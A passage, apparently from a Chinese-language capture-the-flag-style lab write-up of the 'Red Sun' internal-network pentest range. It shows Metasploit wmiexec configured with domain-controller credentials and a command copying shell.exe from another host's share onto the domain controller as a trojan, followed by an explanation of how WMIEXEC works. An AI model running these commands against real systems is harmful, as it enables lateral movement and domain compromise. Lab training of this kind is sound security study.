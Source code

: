 

下面使用wmiexec攻击模块

```
use  auxiliary/scanner/impacket/wmicexec
set rhost  192.168.52.138
set SMBPass  域控密码
set SMBUser  域控账号
set command  执行的命令
```

![image-20210810142402809](红日靶场内网渗透.assets/image-20210810142402809.png)



可以看到输入的命令执行成功，这样的话，可以开启远程桌面和使用共享文件将木马复制到域控主机上，然后开启正向shell监听

```
copy \\192.168.52.140\shell\shell.exe C:\1.exe
```



原理:整个过程是先调用WMI通过账号密码或者NTLM认证（WCE注入）连接到远程计算机，然后如果提供了账号密码，则用这个账号密码建立一个到目标的IPC连接。随后WMI会建立一个共享文件夹，用于远程读取命令执行结果。

当用户输入命令时，WMI创建进程执行该命令，然后把结果输出到文件，这个文件位于之前创建的共享文件夹中。最后，通过FSO组件访问远程共享文件夹中的结果文件，将结果输出。当结果读取完成时，调用WMI执行命令删除结果文件。最后当WMIEXEC退出时，删除文件共享
